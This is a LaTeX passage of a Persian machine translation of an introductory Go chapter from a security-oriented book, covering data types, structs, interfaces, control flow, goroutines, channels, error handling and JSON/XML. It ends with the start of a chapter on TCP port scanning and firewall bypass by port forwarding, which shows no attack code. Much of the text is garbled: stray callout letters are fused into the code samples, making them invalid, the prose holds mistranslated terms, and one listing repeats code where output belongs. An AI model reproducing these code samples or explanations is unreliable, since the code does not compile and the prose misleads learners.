این زبان خود نسخه ای بسیار تمیز C است که بسیاری از تفاوت های سطح پایین را از بین می برد و باعث خوانایی بهتر و اتخاذ آسان تر می شود.
\subsection{\lr{Data Types}}
مانند بسیاری از زبانهای نوین برنامه نویسی ، Go انواع مختلفی از داده های بدوی و پیچیده را ارائه می دهد. انواع اولیه شامل بلوک های اساسی ساختمانی (مانند رشته ها ، اعداد و بولان ها) است که به زبان های دیگر به آنها عادت کرده اید. ابتدایی پایه و اساس تمام اطلاعات مورد استفاده در یک برنامه را تشکیل می دهد. انواع داده های پیچیده ساختارهایی تعریف شده توسط کاربر هستند که از ترکیبی از یک یا چند نوع ابتدایی یا سایر انواع پیچیده تشکیل شده اند.
\subsubsection{\lr{Primitive Data Types}}
انواع ابتدایی عبارتند از:\lr{ bool ، string، int، int8، int16، int32، int64، uint، uint8، uint16، uint32، uint64، uintptr، byte، rune، float32، float64، complex64 و kompleks128}.

شما معمولاً وقتی تعریف می کنید نوع متغیر را اعلام می کنید. اگر اینکار را نکنید ، سیستم به طور خودکار نوع داده متغیر را استنباط می کند. مثالهای زیر را در نظر بگیرید:
\begin{latin}
	\begin{lstlisting}
	var x = "Hello World"
	z := int(42)
	\end{lstlisting}
\end{latin}

در مثال اول شما از کلید واژه var استفاده می کنید تا متغیری به نام x تعریف کنید و مقدار "Hello World" را به آن اختصاص دهید. برو به طور ضمنی استنباط x را یک رشته است ، بنابراین لازم نیست آن نوع را اعلام کنید. در مثال دوم ، از عملگر: = برای تعریف متغیر جدید به نام z استفاده می کنید و مقدار عدد صحیح آن را به 42 اختصاص می دهید. بین این دو عملگر هیچ تفاوتی وجود ندارد. ما در طول این کتاب از هر دو استفاده خواهیم کرد ، اما برخی احساس می کنند که: = اپراتور نمادی زشت است که خوانایی را کاهش می دهد. هر کاری را که برای شما مناسب است انتخاب کنید.

در مثال قبل ، شما به صراحت مقدار 42 را در یک محفظه پیچیده می کنید تا یک نوع روی آن وارد شود. شما می توانید تماس تلفنی را حذف کنید اما مجبورید هر نوع سیستم را که به طور خودکار برای آن مقدار استفاده می کند ، بپذیرید. در بعضی موارد ، این نوع از نوع استفاده شما نخواهد بود. به عنوان مثال ، شاید شما می خواهید 42 به عنوان یک عدد صحیح علامت دار به جای یک نوع int معرفی شود ، در این صورت لازم است صریحاً مقدار آن را بپیچید.


\subsubsection{\lr{Slices and Maps}}
Go همچنین دارای انواع داده های پیچیده تری مانند برش ها و نقشه ها است. برش ها مانند آرایه هایی هستند که می توانید اندازه پویا را تغییر اندازه داده و به عملکردهای بیشتری منتقل کنید. نقشه ها آرایه های انجمنی ، لیست های بدون هماهنگی از جفت های کلیدی / ارزش هستند که به شما امکان می دهند به طور موثر و سریع ارزش های یک کلید منحصر به فرد را جستجو کنید.

انواع و اقسام روش ها برای تعریف ، اولیه سازی و کار با برش ها و نقشه ها وجود دارد. مثال زیر روشی متداول برای تعریف هر دو مفاصل و نقشه و نشان دادن عناصر به هر دو را نشان می دهد:
\begin{latin}
	\begin{lstlisting}
	var s = make([]string, 0)
	var m = make(map[string]string)
	s = append(s, "some string")
	m["some key"] = "some value"
	\end{lstlisting}
\end{latin}

این کد از دو عملکرد داخلی استفاده می کند: () را برای شروع اولیه هر متغیر و ضمیمه () اضافه کنید تا یک مورد جدید به یک برش اضافه شود. خط آخر جفت کلید / مقدار برخی از کلید و مقداری مقدار را به نقشه m اضافه می کند. ما به شما توصیه می كنیم كه اسناد رسمی Go را مطالعه كنید تا تمام روش های تعریف نهایی و استفاده از این انواع داده ها را بررسی كنید
\subsubsection{\lr{Pointers, Structs, and Interfaces}}
یک اشاره گر به حافظه خاصی اشاره می کند و به شما امکان می دهد مقدار ذخیره شده در آن را بازیابی کنید. همانطور که در C انجام می دهید ، از \& \& operator برای بازیابی آدرس در حافظه برخی از متغیرها ، و اپراتور * برای جدا کردن آدرس استفاده می کنید. مثال زیر این مورد را نشان می دهد:
\begin{latin}
	\begin{lstlisting}
	var count = int(42)
	ptr := &count
	fmt.Println(*ptr)
	*ptr = 100
	fmt.Println(count)
	\end{lstlisting}
\end{latin}

کد یک عدد صحیح ، شمارش معکوس را مشخص می کند و سپس با استفاده از \& عملگر یک اشاره گر v ایجاد می کند. این آدرس متغیر count را برمی گرداند. شما متغیر w را هنگام برقراری تماس با fmt.Println () برای ورود مقدار شمارش به stdout تغییر می دهید. سپس از * عملگر x برای تعیین مقدار جدید به محل حافظه ای که توسط ptr استفاده شده است استفاده می کنید. از آنجا که این آدرس متغیر count است ، انتساب مقدار آن متغیر را تغییر می دهد ، که شما با چاپ آن به صفحه y تأیید می کنید.

شما با مشخص کردن قسمتها و روشهای مرتبط با نوع ، از نوع ساختار برای تعریف انواع داده جدید استفاده می کنید. به عنوان مثال ، کد زیر نوع شخص را تعریف می کند:
\begin{latin}
	\begin{lstlisting}
	type Person struct {v Name stringw Age int}x func (p *Person) SayHello() {    fmt.Println("Hello,", p.Namey)} func main() {    var guy =  newz(Person){ guy.Name = "Dave"| guy.SayHello()}
	\end{lstlisting}
\end{latin}

این کد از کلید واژه u برای تعریف ساختار جدید شامل دو فیلد استفاده می کند: یک رشته به نام Namev و یک int به نام Agew.

شما یک روش ، SayHello () را در نوع شخص اختصاص داده شده به متغیر px تعریف می کنید. این روش با مراجعه به ساختار ، py ، دریافت تماس ، پیام تبریک را به stdout چاپ می کند. به عنوان p به عنوان مرجع خود یا این زبان های دیگر فکر کنید. شما همچنین یک تابع ، اصلی () را تعریف می کنید ، که به عنوان نقطه ورود برنامه عمل می کند. این تابع از کلید واژه جدید z برای اولیه سازی یک شخص جدید استفاده می کند. نام Dave را به شخص اختصاص می دهد و سپس شخص را به SayHello می گوید () |

سازه ها فاقد اصلاح کننده هایی از قبیل اهداف خصوصی ، عمومی یا محافظت شده هستند که معمولاً در سایر زبان ها برای کنترل دسترسی به اعضای خود استفاده می شوند. در عوض ، Go برای تعیین دامنه از سرمایه گذاری استفاده می کند: انواع و فیلدهایی که با یک حرف بزرگ شروع می شوند به خارج از بسته بندی صادر می شوند و در دسترس هستند ، در حالی که آنهایی که با یک حروف کوچک شروع می شوند خصوصی هستند و فقط در بسته قابل دسترسی هستند.

می توانید نوع رابط Go را به عنوان طرح یا یک قرارداد فکر کنید. این طرح مجموعه اقدامات مورد انتظار را تعریف می کند که هر اجرای بتن باید انجام دهد تا نوعی از آن رابط در نظر گرفته شود. برای تعریف یک رابط ، مجموعه ای از روش ها را تعریف می کنید؛ هر نوع داده ای که حاوی آن روش ها با امضاهای صحیح باشد ، قرارداد را برآورده می کند و نوع آن رابط در نظر گرفته می شود. بیایید یک مثال بزنیم:
\begin{latin}
	\begin{lstlisting}
	type Friend interface {v SayHello()}
	\end{lstlisting}
\end{latin}

در این نمونه ، رابطی به نام Friendu تعریف کرده اید که نیاز به یک روش دارد: SayHello () v. این بدان معنی است که هر نوعی که روش SayHello () را پیاده سازی کند ، یک Friend است. توجه کنید که رابط Friend واقعاً آن عملکرد را اجرا نمی کند - فقط می گوید اگر دوست هستید ، باید بتوانید SayHello () را انجام دهید.

عملکرد زیر ، Greet () ، یک رابط Friend را به عنوان ورودی در نظر گرفته و سلام را به روشی با Friend تعریف می کند:
\begin{latin}
	\begin{lstlisting}
func Greetu (f Friendv) {    f.SayHello()}
	\end{lstlisting}
\end{latin}

می توانید هر نوع Friend را به عملکرد منتقل کنید. خوشبختانه ، نوع شخص مورد استفاده در مثال قبلی می تواند SayHello () باشد - این یک دوست است. بنابراین ، اگر تابعی به نام Greet () u ، همانطور که در کد قبلی نشان داده شده است ، از یک پارامتر ورودی v از Friendas انتظار دارد ، می توانید آن را مانند یک شخص عبور دهید:
\begin{latin}
	\begin{lstlisting}
	func main() {    var guy = new(Person)    guy.Name = "Dave"    Greet(guy)}
	\end{lstlisting}
\end{latin}

با استفاده از رابط ها و سازه ها ، می توانید چندین نوع را تعریف کنید که می توانید به همان عملکرد Greet () منتقل شوید ، تا زمانی که این نوع ها رابط Friend را پیاده سازی کنند. این مثال اصلاح شده را در نظر بگیرید:
\begin{latin}
	\begin{lstlisting}
	type Dog struct {}func (d *Dog) SayHello()v {    fmt.Println("Woof woof")} func main() {    var guy = new(Person)    guy.Name = "Dave"w Greet(guy)    var dog = new(Dog)x Greet(dog)}
	\end{lstlisting}
\end{latin}

مثال نوع جدید Dogu را نشان می دهد که می تواند SayHello () v را بدست آورد و بنابراین یک دوست است. شما می توانید به () شخصاً و یک سگ (Dogx) خوش آمدگویی کنید ، زیرا هر دو قادر به SayHello () هستند.

ما چندین بار رابط را در طول کتاب پوشش خواهیم داد تا به شما در درک بهتر مفهوم کمک کنیم.
\subsection{\lr{Control Structures}}
Go دارای ساختارهای کنترلی کمتری نسبت به سایر زبانهای مدرن است. با وجود این ، شما هنوز هم می توانید پردازش های پیچیده ، از جمله شرایط مشروط و حلقه ها را با Go انجام دهید.

شرط اصلی Go ساختار if / other است:
\begin{latin}
	\begin{lstlisting}
	if x == 1 {    fmt.Println("X is equal to 1")} else {    fmt.Println("X is not equal to 1")}
	\end{lstlisting}
\end{latin}

نحو Go کمی از نحو زبانهای دیگر منحرف شده است. به عنوان مثال ، شما چک مشروط را ap در این مورد ، x == 1 — در پرانتز نمی پوشانید. شما باید تمام بلوک های کد ، حتی بلوک های تک خط قبلی را ببندید. بسیاری از زبانهای مدرن دیگر پرانتز را برای بلوک های تک خط انتخاب نمی کنند ، اما در Go آنها لازم است.

برای شرط های بیش از دو گزینه ، Go یک تغییر وضعیت ارائه می دهد. موارد زیر مثالی است:
\begin{latin}
	\begin{lstlisting}
	switch xu {    case "foo"v:        fmt.Println("Found foo")    case "bar"w:        fmt.Println("Found bar")    defaultx:        fmt.Println("Default case")}
	\end{lstlisting}
\end{latin}

در این مثال ، عبارت سوئیچ محتویات یک متغیر xu را در برابر مقادیر مختلف - foov و barw - مقایسه می کند و اگر x یکی از شرایط را مطابقت دارد ، یک پیام مختلف را به stdout وارد می کند. این مثال شامل یک مورد پیش فرض x است ، در صورتی که هیچ یک از شرایط دیگر مطابقت نداشته باشد ، اجرا می شود.

توجه داشته باشید که برخلاف بسیاری از زبانهای مدرن دیگر ، موارد شما نیازی به اظهارات شکست ندارند. در زبانهای دیگر ، اجرای اغلب از طریق هر یک از موارد ادامه می یابد تا اینکه کد به بیانیه شکستگی یا انتهای سوئیچ برسد. برو بیش از یک تطبیق یا پیش فرض اجرا نمی کند.

Go همچنین حاوی یک تغییر خاص در سوئیچ است که یک نوع switchthat با استفاده از عبارت سوئیچ ادعاهای نوع را انجام می دهد. سوئیچ های نوع برای تلاش برای درک نوع اصلی واسط مفید هستند.

به عنوان مثال ، شما ممکن است از یک سوئیچ نوع برای بازیابی نوع اصلی رابط کاربری با نام i استفاده کنید:
\begin{latin}
	\begin{lstlisting}
	func foo(iu interface{}) {    switch v := i.(type)v {    case int:        fmt.Println("I'm an integer!")    case string:        fmt.Println("I'm a string!")    default:        fmt.Println("Unknown type!")    }}
	\end{lstlisting}
\end{latin}

در این مثال از syntax ویژه (i) (نوع) v برای بازیابی نوع متغیر iinterface u استفاده می شود. شما از این مقدار در یک عبارت سوئیچ استفاده می کنید که در آن هر مورد با یک نوع خاص مطابقت دارد. در این مثال ، موارد شما انواع اولیه یا رشته ای را بررسی می کنند ، اما شما به عنوان مثال می توانید برای نشانگرها یا انواع ساختارهای تعریف شده توسط کاربر ، بررسی کنید.

آخرین ساختار کنترل جریان ، حلقه حلقه است. حلقه for ساخت منحصر به فرد Go برای انجام تکرار یا تکرار بخشهای کد است. به نظر می رسد که کنوانسیون هایی نظیر انجام یا در حالی که حلقه هایی در اختیار شما نیست ، عجیب به نظر برسد ، اما می توانید با استفاده از تغییرات مالیات حلقه syn دوباره آنها را ایجاد کنید. در اینجا یک تغییر نوع حلقه for وجود دارد:
\begin{latin}
	\begin{lstlisting}
	for i := 0; i < 10; i++ {    fmt.Println(i)}
	\end{lstlisting}
\end{latin}

کد از طریق شماره های 0 تا 9 حلقه می شود و هر شماره را به صورت stdout چاپ می کند. توجه داشته باشید که تک خط ها در خط اول هستند. بر خلاف بسیاری از زبان های دیگر ، که از نقاط ضعف به عنوان تعیین کننده خط استفاده می کنند ، Go از آنها برای ساختارهای مختلف کنترل استفاده می کند تا چندین زیرشاخه متمایز اما مرتبط با یکدیگر را در یک خط کد انجام دهد. خط اول با استفاده از تکست ها برای جدا کردن منطق اولیه (i: = 0) ، بیان شرطی (i <10) و عبارت post (i ++) را انجام می دهد. این ساختار برای هرکسی که به هر زبان مدرنی کد نویسی کرده باشد ، بسیار آشنا است ، زیرا این برنامه ها از نزدیک دنباله های زبان های انگلیسی را دنبال می کند.

مثال زیر تغییر جزئی از حلقه حلقه را نشان می دهد که مانند یک برش یا نقشه بر روی یک مجموعه حلقه می زند:
\begin{latin}
	\begin{lstlisting}
	nums := []int{2,4,6,8}for idxv, valw := rangex nums {    fmt.Println(idx, val)}
	\end{lstlisting}
\end{latin}

در این مثال ، شما یک قطعه عدد صحیح به نام numsu را آغاز می کنید. سپس از کلید واژه rangex در حلقه برای تکرار برش استفاده می کنید. کلید واژه فاصله دو مقدار را نشان می دهد: شاخص فعلی v و یک نسخه از مقدار فعلی w در آن فهرست. اگر شما قصد استفاده از ایندکس را ندارید ، می توانید idx را در حلقه for با یک گزارش برجسته جایگزین کنید تا بگویید که شما به آن احتیاج ندارید.

برای برگرداندن هر جفت کلید / مقدار می توانید از همین منطق حلقه یابی مشابه استفاده کنید.
\subsection{\lr{Concurrency}}
تقریباً مانند ساختارهای کنترلی که قبلاً مورد بررسی قرار گرفته اند ، Go یک مدل همزمانی بسیار ساده تر نسبت به زبانهای دیگر دارد. برای اجرای کد به طور همزمان ، می توانید از goroutines استفاده کنید ، اینها توابع یا روشهایی هستند که می توانند بصورت هم زمان اجرا شوند. اینها معمولاً به عنوان نخهای سبک توصیف می شوند زیرا هزینه مقایسه آنها با موضوعات واقعی کمترین است.

برای ایجاد یک goroutine ، قبل از تماس با روشی یا عملکردی که می خواهید همزمان انجام شود ، از کلمه کلیدی برو استفاده کنید:
\begin{latin}
	\begin{lstlisting}
	func f() {    fmt.Println("f function")}func main() {v go f()    time.Sleep(1 * time.Second)    fmt.Println("main function")}
	\end{lstlisting}
\end{latin}

در این مثال ، شما یک تابع (f) را تعریف می کنید ، که شما را به عنوان () وظیفه اصلی () خود ، نقطه ورود برنامه می نامید. شما تماس را با كلمه واژه gov مقدم مي كنيد ، بدين معنا كه برنامه تابع f () همزمان اجاره اي را اجرا مي كند؛ به عبارت دیگر ، اجرای تابع اصلی () شما بدون انتظار برای تکمیل f () ادامه خواهد یافت. سپس می توانید از یک time.Sleep (1 * time.Second) استفاده کنید تا عملکرد اصلی () را به حالت موقت مکث کنید تا f () بتواند کامل شود. اگر تابع اصلی () را متوقف نکردید ، احتمالاً برنامه قبل از اتمام عملکرد f () خارج می شود ، و هرگز نتایج آن به صورت stdout نمایش داده نمی شود. به درستی انجام شد ، پیامهایی را که به صورت stdout چاپ شده اند ، نشان می دهد که شما هم عملکردهای f () و هم عملکرد () را تمام کرده اید.

Go حاوی یک نوع داده به نام کانالهایی است که مکانیسمی را فراهم می کند که از طریق آن گروت ها می توانند اجرای خود را همزمان کرده و با یکدیگر ارتباط برقرار کنند. بیایید به نمونه ای که از کانال ها برای جدا کردن طول رشته های مختلف و جمع آنها به طور همزمان استفاده می کند ، نگاه کنیم:
\begin{latin}
	\begin{lstlisting}
	func strlen(s string, c chan int) {v c <- len(s)}func main() {w c := make(chan int)x go strlen("Salutations", c)    go strlen("World", c)y x, y := <-c, <-c    fmt.Println(x, y, x+y)}
	\end{lstlisting}
\end{latin}

ابتدا متغیر c از نوع chan int را تعریف و استفاده می کنید. بسته به نوع داده ای که قصد عبور از طریق کانال را دارید می توانید کانال های مختلفی را تعریف کنید. در این حالت ، شما طول رشته های مختلف را به عنوان مقادیر عدد صحیح بین گوروین ها عبور خواهید کرد ، بنابراین باید از کانال int استفاده کنید.

به یک اپراتور جدید توجه کنید: <-. این عملگر نشان می دهد که داده ها به کانال منتقل می شوند یا خیر. می توانید از این نظر به معادل قرار دادن وسایل در یک سطل یا خارج کردن وسایل از یک سطل فکر کنید.

تابعی که تعریف می کنید ، (strlen () u) ، کلمه ای را به عنوان یک رشته و کانال دیگری که برای همگام سازی داده ها استفاده خواهید کرد ، می پذیرد. این تابع شامل یک عبارت واحد ، c <- len (s) v است که از تابع داخلی () برای تعیین طول رشته استفاده می کند و سپس با استفاده از آتور <- عمل نتیجه را به داخل کانال می گذارد.

تابع اصلی () همه چیز را با هم جمع می کند. ابتدا برای ایجاد کانال عدد صحیح یک تماس برای ایجاد (chan int) w صادر می کنید. سپس با استفاده از کلید واژه go x ، که چندین گوروین را می چرخاند ، چندین تماس همزمان با عملکرد strlen () صادر می کنید. شما به تابع strlen () دو مقدار رشته ، و همچنین كانالی را كه می خواهید نتایج را در آن قرار دهید ، عبور می دهید. در آخر ، شما داده های کانال را با استفاده از <- عملگر y می خوانید ، این بار با داده های از کانال. این بدان معنی است که شما موارد را از سطل خود خارج می کنید ، به اصطلاح ، و آن مقادیر را به متغیرهای x و y اختصاص می دهید. توجه داشته باشید که اجرای این بلوک تا زمانی که داده های کافی از کانال خوانده شود نمی تواند بلوک کند.

پس از اتمام خط ، طول هر رشته و همچنین مبلغ آنها را به stdout نشان می دهید. در این مثال ، خروجی زیر را تولید می کند:
\begin{latin}
	\begin{lstlisting}
	5 11 16
	\end{lstlisting}
\end{latin}

این ممکن است بسیار پراهمیت به نظر برسد ، اما مهمترین نکته برای برجسته کردن الگوهای اساسی همزمان با هم ، مهم است زیرا Go در این منطقه می درخشد. از آنجا که همزمانی و پارال لنیسم در Go می تواند بسیار پیچیده باشد ، احساس راحتی کنید که به تنهایی اکتشاف کنید. در طول این کتاب ، در هنگام معرفی کانال های بافر ، گروه های منتظر ، بی صدا و موارد دیگر ، در مورد اجرای واقعی تر و پیچیده تر از همزمانی صحبت خواهیم کرد.
\subsection{\lr{Error Handling}}
بر خلاف بسیاری از زبان های برنامه نویسی مدرن ، Go شامل نحوی برای استفاده از خطای try / گرفتن / در نهایت نیست. درعوض ، این رویکرد حداقلی را اتخاذ می کند که شما را تشویق می کند تا به جای اینکه به آنها اجازه دهید "عملکرد" دیگری را در زنجیره مکالمه برقرار کنند ، خطاهای موجود را بررسی کنید.

Go نوع خطای داخلی را با بیانیه رابط زیر تعریف می کند:
\begin{latin}
	\begin{lstlisting}
type error interface {    Error() string}
	\end{lstlisting}
\end{latin}

این بدان معناست که می توانید از هر نوع داده ای استفاده کنید که روشی به نام Error () را اجرا می کند ، که یک مقدار رشته را به عنوان خطا باز می گرداند. به عنوان مثال ، در اینجا یک خطای سفارشی وجود دارد که می توانید در کل کد خود تعریف و استفاده کنید:
\begin{latin}
	\begin{lstlisting}
	type MyError stringfunc (e MyError) Error() stringv {    return string(e)}
	\end{lstlisting}
\end{latin}

شما یک نوع رشته تعریف شده توسط کاربر به نام MyErroru ایجاد می کنید و یک روش خطی () خطی v را برای نوع آن پیاده سازی می کنید.

هنگامی که خطا در مورد خطا می شود ، به سرعت به الگوی زیر عادت می کنید:
\begin{latin}
	\begin{lstlisting}
	func foo() error {    return errors.New("Some Error Occurred")}func main() {    if err := foo()u;err != nilv {        // Handle the error    }}
	\end{lstlisting}
\end{latin}

متوجه خواهید شد که بازگشت به توابع و روشها کاملاً عادی است. یکی از این مقادیر تقریباً همیشه خطاست. در Go ، خطای برگشتی ممکن است یک مقدار صفر باشد ، نشان می دهد که عملکرد هیچ خطایی ایجاد نمی کند و همه چیز به ظاهر انتظار می رود اجرا شود. مقدار غیر nil به معنای شکستن عملکرد در عملکرد است.

بنابراین ، می توانید خطاها را با استفاده از دستور if ، همانطور که در عملکرد اصلی () نشان داده شده است ، بررسی کنید. شما به طور معمول چندین بیانیه را می بینید ، که با یک کلمه جدا می شوند. اولین جمله این تابع را فراخوانی می کند و خطای حاصل را به متغیر u اختصاص می دهد. بیانیه دوم بررسی می کند که آیا آن خطای خطا است یا خیر. برای بدست آوردن خطا از بدنه if if استفاده می کنید.

خواهید فهمید که فلسفه ها با بهترین روش برای رسیدگی و ورود به خطاها در Go متفاوت هستند. یکی از چالش ها این است که ، بر خلاف سایر زبان ها ، نوع خطای داخلی Go به طور ضمنی اثری از پشته را در اختیار شما قرار نمی دهد تا به شما در مشخص کردن زمینه یا موقعیت خطا کمک کند. اگرچه مطمئناً می توانید یکی از آنها را ایجاد کنید و آن را به نوع دلخواه در برنامه خود اختصاص دهید ، اجرای آن در اختیار توسعه دهندگان است. این در ابتدا می تواند کمی آزار دهنده باشد ، اما شما می توانید با استفاده از طراحی مناسب برنامه ریزی کنید.
\subsection{\lr{Handling Structured Data}}
پزشکان امنیتی اغلب کدهایی را می نویسند که از داده های ساخت یافته یا داده هایی با رمزگذاری رایج مانند JSON یا XML استفاده می کند. Go شامل بسته های استاندارد برای رمزگذاری داده ها است. رایج ترین بسته هایی که احتمالاً از آنها استفاده می کنید شامل رمزگذاری / json و رمزگذاری / xml است.

هر دو بسته می توانند ساختار داده های دلخواه marshal و unmarshal را ایجاد کنند ، به این معنی که آنها می توانند رشته ها را به سازه ها و ساختارها را به رشته ها تبدیل کنند. نگاهی به نمونه زیر می اندازد که یک ساختار را به یک برش بایت سریالی می کند و سپس متعاقباً قطعه بایت را به ساختار تبدیل می کند. :
\begin{latin}
	\begin{lstlisting}
	type Foo struct {    Bar string    Baz string}func main() {v f := Foo{"Joe Junior", "Hello Shabado"}    b, _w := json.Marshalx(fy)z fmt.Println(string(b))    json.Unmarshal(b{, &f|)}
	\end{lstlisting}
\end{latin}

این کد (که از بهترین روشها منحرف می شود و خطاهای احتمالی را نادیده می گیرد) نوع ساختاری به نام Foou را تعریف می کند. شما آن را در تابع اصلی () v خود تنظیم می کنید و سپس با json.Marshal () x تماس می گیرید ، و آنرا Fooinstance y می گذارید. این روش مارشال () ساختار را به JSON رمزگذاری می کند ، یک برش بایت w را که متعاقباً آنرا چاپ می کنید به stdout z بازگرداند. خروجی ، در اینجا نشان داده شده ، یک نمایش رشته کد شده با JSON از ساختار Foo است:
\begin{latin}
	\begin{lstlisting}
{"Bar":"Joe Junior","Baz":"Hello Shabado"}
	\end{lstlisting}
\end{latin}

سرانجام ، شما همان تکه بایت را می گیرید - و از طریق تماس با json.Unmarshal (B و F) آن را رمزگشایی می کنید. این نمونه ای از ساختار Foo | پرداختن به XML با این روند تقریباً یکسان است.

هنگامی که با JSON و XML کار می کنید ، معمولاً از برچسب های زمینه استفاده می کنید ، این عناصر ابرداده ای هستند که به زمینه های ساختار خود اختصاص می دهید تا چگونگی یافتن و برخورد با منطق تالاب و عناصر غیرمشخص را بتواند عناصر وابسته را پیدا و درمان کند. تعداد بیشماری از این برچسب های زمینه وجود دارد ، اما در اینجا یک مثال کوتاه وجود دارد که استفاده از آنها برای دستیابی به XML را نشان می دهد:
\begin{latin}
	\begin{lstlisting}
	type Foo struct {    Bar     string    `xml:"id,attr"`    Baz     string    `xml:"parent>child"`}
	\end{lstlisting}
\end{latin}

مقادیر رشته ، با بک گراند پیچیده شده و زیر زمینه های ساختار ، برچسب های میدانی هستند. برچسب های زمینه همیشه با نام برچسب (xml در این حالت) شروع می شوند ، و به دنبال آن یک روده بزرگ و بخشنامه محصور شده به صورت مضاعف است. دفترچه راهنما نحوه کار با این زمینه ها را مشخص می کند. در این حالت ، شما دستورالعمل هایی را تهیه می کنید که اعلام می کنند Bar باید به عنوان یک ویژگی به نام id شناخته شود ، نه یک عنصر ، و این که Baz باید در زیرمجموعه ای از پدر و مادر به نام فرزند پیدا شود. اگر نمونه JSON قبلی را تغییر دهید تا اکنون ساختار را به عنوان XML رمزگذاری کنید ، نتیجه زیر را می بینید:
\begin{latin}
	\begin{lstlisting}
	\begin{latin}
	\begin{lstlisting}
	type Foo struct {    Bar     string    `xml:"id,attr"`    Baz     string    `xml:"parent>child"`}
	\end{lstlisting}
\end{latin}

رمزگذار XML با استفاده از بخشنامه های برچسب ، عناصر را تعیین می کند ، بنابراین هر فیلد مطابق با نیازهای شما اداره می شود.

در طول این کتاب ، این برچسب های زمینه را برای مقابله با سایر قالب های سریال سازی داده ها ، از جمله ASN.1 و MessagePack ، استفاده می کنید. ما همچنین برخی از نمونه های مربوط به تعریف برچسب های سفارشی خود را ، به ویژه هنگامی که یاد می گیرید که چگونه پروتکل بلوک پیام سرور (SMB) را مدیریت کنید ، بحث خواهیم کرد.
\section{\lr{Summary}}
در این فصل ، محیط Go خود را تنظیم کرده و با جوانب اساسی زبان Go آشنا شده اید. این یک لیست جامع از تمام ویژگی های Go نیست؛ این زبان برای ما بسیار ظریف و بزرگ است که همه را در یک فصل واحد بچسبانیم. درعوض ، ما در بخش هایی که در ادامه می آید ، جنبه هایی را خواهیم دید که بیشترین سود را خواهند داشت. اکنون توجه ما به برنامه های کاربردی زبان برای پزشکان امنیتی و هکرها تبدیل خواهیم شد. در اینجا ما بروید!
\chapter{\lr{TCP AND GO}: اسکنرها و محصولات}
بیایید برنامه عملی ما از Go را با پروتکل کنترل انتقال (TCP) ، استاندارد غالب برای ارتباطات محور ، قابل اعتماد و پایه و اساس شبکه های مدرن ، شروع کنیم. TCP در همه جا وجود دارد ، و دارای کتابخانه های کاملاً مستند ، نمونه کد و جریانات بسته های کاملاً قابل فهم است. شما باید TCP را برای ارزیابی کامل ، تحلیل ، پرس و جو و دستکاری در ترافیک شبکه درک کنید.

به عنوان یک مهاجم ، باید بدانید که TCP چگونه کار می کند و می توانید سازه های قابل استفاده TCP را توسعه دهید تا بتوانید پورت های باز / بسته را شناسایی کنید ، نتایج ناپسند بالقوه مانند مثبت های کاذب (به عنوان مثال ، محافظت در برابر سیل) را بشناسید و از محدودیت های خروجی خارج شوید. از طریق ارسال بندر در این فصل ، شما ارتباطات اصلی TCP را در Go یاد خواهید گرفت. یک اسکنر بندر به طور صحیح با اجاره همزمان بسازید. یک پروکسی TCP ایجاد کنید که می تواند برای حمل و نقل پورت استفاده شود. و ویژگی "شکاف امنیتی شکاف" Netcat را دوباره ایجاد کنید.

كتابهای درسی كلی نوشته شده است تا درباره هر یك از ویژگیهای TCP ، از جمله ساختار و جریان بسته ها ، قابلیت اطمینان ، انتقال مجدد ارتباطات و موارد دیگر بحث كند. این سطح از جزئیات فراتر از محدوده این کتاب است. برای اطلاعات بیشتر ، باید راهنمای TCP / IP توسط چارلز م. کوزیروک (NoStarch Press ، 2005) بخوانید.
\section{\lr{Understanding the TCP Handshake}}
برای کسانی که به یک تازه ساز نیاز دارند ، اجازه دهید مبانی را مرور کنیم. شکل 2-1 نشان می دهد که چگونه TCP هنگام پرس و جو از درگاه از یک فرآیند لرزش دست استفاده می کند تا مشخص کند آیا درگاه باز ، بسته یا فیلتر شده است.
\begin{figure}
	\caption{TCP handshake fundamentals}
	\centering
	
\includegraphics[width=1\textwidth]{images/tcp.png}
\end{figure}

اگر درگاه باز باشد ، دستی با سه طرفه صورت می گیرد. اول ، مشتری یک بسته سین را می فرستد ، که نشان دهنده آغاز یک ارتباط است. سرور سپس با تأیید بسته های سینتی که دریافت کرده است ، پاسخ می دهد و باعث می شود مشتری با یک Ack یا تأیید پاسخ سرور به پایان برسد. انتقال داده ها می تواند انجام شود. اگر پورت جدا شود ، سرور به جای یک syn-ack با اولین بسته پاسخ می دهد. اگر ترافیک توسط فایروال فیلتر شود ، مشتری معمولاً هیچ پاسخی از سرور دریافت نمی کند.

TCP و Go: اسکنرها و پراکسی ها 23 این پاسخ ها برای درک هنگام نوشتن ابزارهای مبتنی بر شبکه مهم هستند. ارتباط خروجی ابزارهای خود با این جریانهای بسته سطح پایین به شما کمک می کند تا اعتبار خود را تأیید کنید که ارتباط درست شبکه را برقرار کرده اید و مشکلات احتمالی را برطرف کرده اید. همانطور که بعداً در این فصل مشاهده خواهید کرد ، اگر نتوانید دستیابی به اتصال کامل TCP-server سرور را کامل کنید ، می توانید اشکالات را در کد خود وارد کنید و به نتیجه نادرست یا گمراه کننده منجر خواهید شد.
\section{\lr{Bypassing Firewalls with Port Forwarding}}
افراد می توانند از دیواره آتش فایروال پیکربندی کنند تا از دسترسی مشتری به سرورها و پورت های خاص جلوگیری کند ، در حالی که امکان دسترسی به دیگران را فراهم می کند. در بعضی موارد ، شما می توانید این محدودیت ها را با استفاده از یک سیستم واسطه برای پروکسی اتصال در اطراف یا از طریق فایروال ، یک تکنیک معروف به portforwarding کنید.

